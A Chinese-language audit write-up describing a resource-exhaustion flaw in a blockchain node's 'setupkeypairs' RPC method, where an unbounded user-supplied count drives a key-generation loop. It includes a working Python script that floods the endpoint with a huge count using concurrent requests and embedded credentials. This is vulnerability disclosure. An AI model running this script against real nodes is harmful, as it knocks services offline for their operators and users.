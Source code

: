 之前在做某公链审计时发现存在 for 循环的逻辑代码在设计时器循环的次数由外部用户可控的参数决定，故用户可以通过构造一个恶意的参数从而让该 for 循环不间歇的进行循环操作，从而消耗大量的 CPU 内存，甚至造成 DDOS。  
用于生成公钥/私钥对的 RPC 接口对于传入的要生成公钥/私钥对的个数 num 未做限制，直接 for 循环 num 次生成 num 对公钥/私钥，攻击者可以通过传入较大的 num 参数，之后可导致 CPU 短时间内处于高占用状  
setupkeyparis 逻辑设计：  
[![](assets/1706957988-be02cceb76046b31c89a32de0b9f4d02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201151753-039f1970-c0d2-1.png)  
测试脚本：

```bash
#!/usr/bin/env python3
from gevent import pool,monkey
monkey.patch_all()
import requests
def exp():
   URL = "http://172.16.1.148:5112"
   data = {
         "jsonrpc": "2.0",
         "method": "setupkeypairs",
         "configs": [214748364],
         "id": "rpcsetupkeypairs"
    }
   s = requests.session()
   s.auth = ('xxxx','BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC')
   response = s.post(url=URL,json=data)
   print(response.json())
def run():
   p = pool.Pool()
   for i in range(5):
      p.apply_async(exp)
      p.join()
if __name__ == '__main__':
   run()
```
